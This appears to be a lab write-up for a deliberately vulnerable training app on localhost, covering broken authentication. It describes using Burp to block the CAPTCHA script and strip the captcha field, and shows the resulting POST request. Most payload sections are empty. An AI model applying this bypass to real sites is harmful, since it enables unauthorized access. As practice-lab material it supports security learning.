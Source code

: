 # / A2 - Broken Authentication /


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Broken Auth. - CAPTCHA Bypassing 💀

Using Burp, do not allow the webpage to load captcha_box.php, this page loads the server's session variable $\_SESSION["captcha"] which will then require a check on ba_captcha_bypass.php
The second requirement is to prevent captcha_user from being submitted by the client. Eliminate this using Burp:

```
POST /ba_captcha_bypass.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/ba_captcha_bypass.php
Cookie: PHPSESSID=67a6abb1d7ff40c55ad50d3aa43fc7c4; security_level=0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

login=bee&password=bug&form=submit
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high
